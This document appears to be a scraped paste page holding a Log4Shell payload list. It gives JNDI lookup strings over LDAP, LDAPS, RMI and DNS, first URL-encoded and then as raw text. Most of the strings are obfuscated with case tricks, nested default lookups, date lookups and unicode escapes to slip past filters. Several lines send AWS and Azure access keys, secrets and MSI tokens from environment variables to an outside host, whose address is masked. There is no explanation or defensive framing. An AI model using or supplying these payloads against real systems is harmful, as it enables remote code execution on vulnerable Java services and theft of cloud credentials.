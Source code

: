 %24%7B%24%7B::-J%7D%24%7B::-n%7d%24%7b::-d%7D%24%7B::-i%7d:%24%7B::-D%7d%24%7b::-n%7D%24%7B::-S%7d://****/z%7D
%24%7bjnd%24%7bSyS:SYS_nAMe:-i%7d:LdAP:/****/z%7D
%24%7BJnd%24%7bsYS:sYs_namE:-I%7d:LdaPs:/****/z%7D
%24%7bJnd%24%7BSYs:SyS_naME:-I%7D:RmI:/****/Z%7d
%24%7bJNd%24%7BsyS:SyS_Name:-I%7d:DNs:/****/Z%7D
%24%7Bj%24%7B%24%7b:-l%7D%24%7b:-o%7D%24%7b:-w%7D%24%7b:-e%7d%24%7b:-r%7d:n%7DDi:LdAp://****/Z%7d
%24%7Bj%24%7B%24%7B:-l%7D%24%7B:-O%7D%24%7B:-w%7D%24%7B:-E%7d%24%7b:-R%7d:N%7Ddi:lDaPS://****/z%7D
%24%7bj%24%7b%24%7B:-L%7D%24%7B:-o%7d%24%7B:-W%7d%24%7B:-e%7D%24%7b:-r%7d:N%7DDI:rmI://****/z%7d
%24%7bJ%24%7b%24%7b:-L%7d%24%7b:-O%7D%24%7B:-W%7d%24%7B:-E%7D%24%7B:-r%7D:N%7dDI:Dns://****/Z%7D
%24%7B%24%7bDaTe:'J'%7d%24%7BDAtE:'N'%7D%24%7BDAtE:'D'%7D%24%7BDATE:'i'%7D:%24%7bDatE:'L'%7D%24%7BDaTE:'d'%7d%24%7bDATE:'A'%7D%24%7BdAtE:'P'%7D%24%7bDate:'s'%7D://****/z%7D
%24%7b%24%7BdaTe:'J'%7d%24%7bDaTE:'n'%7d%24%7BdATE:'d'%7d%24%7bdatE:'i'%7D:%24%7BdaTE:'R'%7D%24%7bdaTe:'m'%7d%24%7bDate:'i'%7d://****/z%7D
%24%7b%24%7BDate:'j'%7d%24%7BdATe:'n'%7d%24%7BdATE:'D'%7D%24%7bDatE:'i'%7D:%24%7BdATe:'d'%7d%24%7BDAte:'N'%7D%24%7BdatE:'S'%7D://****/Z%7d
%24%7b%24%7bwhAT:eVER:-J%7D%24%7bsOMe:THiNg:-N%7d%24%7boTher:THiNG:-D%7D%24%7baND:lASt:-i%7D:ldaPS://****/Z%7D
%24%7B%24%7bWhat:EVER:-j%7d%24%7BSome:Thing:-n%7d%24%7BOthEr:thiNG:-d%7d%24%7baND:LaSt:-i%7D:RMi://****/Z%7D
%24%7b%24%7bWHaT:eVER:-J%7d%24%7bSomE:ThIng:-N%7d%24%7BOtHER:ThING:-d%7D%24%7Band:LAST:-I%7D:DnS://****/z%7D
%24%7B\u006a\U006e\u0064\u0069:ldAP://****/Z%7d
%24%7b\u006a\u006E\u0064\U0069:LDapS://****/Z%7D
%24%7b\u006a\u006e\u0064\u0069:Rmi://****/Z%7D
%24%7B\u006A\u006E\U0064\U0069:DnS://****/z%7d
%24%7BjNdi:LDAP://127.0.0.1#****/z%7d
%24%7BJnDI:LdAPs://127.0.0.1#****/Z%7D
%24%7Bjndi:Rmi://127.0.0.1#****/Z%7D
%24%7BjNdi:dNS://127.0.0.1#****/z%7d
RAW Paste Data
${jndi:ldap://****/z}
${jndi:ldaps://****}
${jndi:rmi://****}
${jndi:dns://****}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//****/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}daps${env:ENV_NAME:-:}//****/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-r}mi${env:ENV_NAME:-:}//****/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-d}ns${env:ENV_NAME:-:}//****/z}
${jndi:ldap://****/z?leak=${env:AWS_ACCESS_KEY_ID:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AWS_SECRET_ACCESS_KEY:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AMAZON_AWS_ACCESS_KEY_ID:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AMAZON_AWS_SECRET_ACCESS_KEY:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AZURE_CLIENT_ID:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AZURE_CLIENT_SECRET:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AZURE_USERNAME:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AZURE_PASSWORD:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:MSI_ENDPOINT:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:MSI_SECRET:-NO_EXISTS}}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://****/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://****/z}
${jnd${sys:SYS_NAME:-i}:ldap:/****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://****/z}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}://****/z}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldap://****/z}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}${lower:s}://****/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}${upper:s}://****/z}
${${lower:j}ndi:${lower:r}${lower:m}a${lower:i}://****/z}
${${upper:j}ndi:${upper:r}${upper:m}a${lower:i}://****/z}
${${lower:j}ndi:${lower:d}${lower:n}a${lower:s}://****/z}
${${upper:j}ndi:${upper:d}${upper:n}a${lower:s}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}${::-s}://****/z}